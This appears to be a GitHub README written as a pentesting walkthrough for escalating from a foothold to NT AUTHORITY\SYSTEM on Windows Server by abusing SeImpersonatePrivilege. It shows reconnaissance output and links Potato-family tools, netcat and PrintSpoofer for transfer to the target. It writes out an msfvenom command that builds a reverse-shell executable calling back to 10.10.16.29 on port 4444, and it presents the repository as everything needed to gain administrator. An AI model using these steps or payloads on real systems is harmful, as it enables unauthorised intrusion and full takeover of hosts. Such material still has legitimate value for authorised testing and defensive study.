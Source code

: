 # how to exploit SeImpersonatePrivilege in windows machine during pentesting 

How to exploit SeImpersonatePrivilege with different ways, it is also gud to check what version of operating system were dealing with
```
C:\Users\Public\Desktop>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 4 Hotfix(s) Installed.
```

#### Assume you have exploi a windows operating system and you run the **whoami/priv** you find that you can exploit to **nt authority\system**  throught tokenImpersonate, there many ways do this but when doing pentesting, in this blog am going to upload every technique i use when i meet this enviroment when approaching a target.

## Take an example
```
C:\Users\Public\desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Public\desktop>
```

From the above scenarion there many ways you can try to exploit this but actually i am making this one so i can easy simplfy my way in with this easy way to become administrator.

## first thing were gonna need is transfering the following binaries into our target machine 
1. nc.exe (specific for windows) - [windows netcat](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/nc.exe) - 🖥️ netcat binary download
2. RoguePotato.exe - [RoguePotato](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/RoguePotato.md) - 🖥️ roguepotato binary usage
3. JuicyPotato - [JuicyPotato](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/JuicyPotato.md) - 🖥️ JuicyPotato binary usage
4. payload with msfvenom specific for windows(msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe)
5. PrintSpoofer - [PrintSpoofer.md](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/PrintSpoofer.md) - 🖥️ PrintSpoofer binary usage
6. GodPotato - [GodPotato](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/Godpotato.md) - 🖥️ GodPotato binary usage

```
C:\Users\Public\desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Users\Public\desktop

04/13/2024  08:59 AM    <DIR>          .
04/13/2024  08:59 AM    <DIR>          ..
04/13/2024  07:23 AM    <DIR>          Microsoft
04/13/2024  06:59 AM            59,392 nc.exe
04/13/2024  07:23 AM           347,648 potato.exe
04/13/2024  08:59 AM           159,232 rogue.exe
04/13/2024  07:28 AM             7,168 shell.exe
04/13/2024  08:39 AM            27,136 spoofer.exe
02/20/2020  03:14 AM             1,191 TeamViewer 7.lnk
               7 File(s)        601,801 bytes

        3 Dir(s)  13,362,515,968 bytes free
```
Everything required is available here no need to search for them online anymore, just this repostory is enough to go for root/administrator



# references
```
The following are the references i have used to create everything here

1.https://github.com/itm4n/PrintSpoofer/releases
2. https://github.com/ohpe/juicy-potato
3. https://github.com/antonioCoco/RoguePotato/tree/master/RoguePotato
4. https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe
5. https://juggernaut-sec.com/seimpersonateprivilege/
6. https://github.com/BeichenDream/GodPotato
7. https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/
8. https://github.com/antonioCoco/RoguePotato/tree/master
9. https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

```


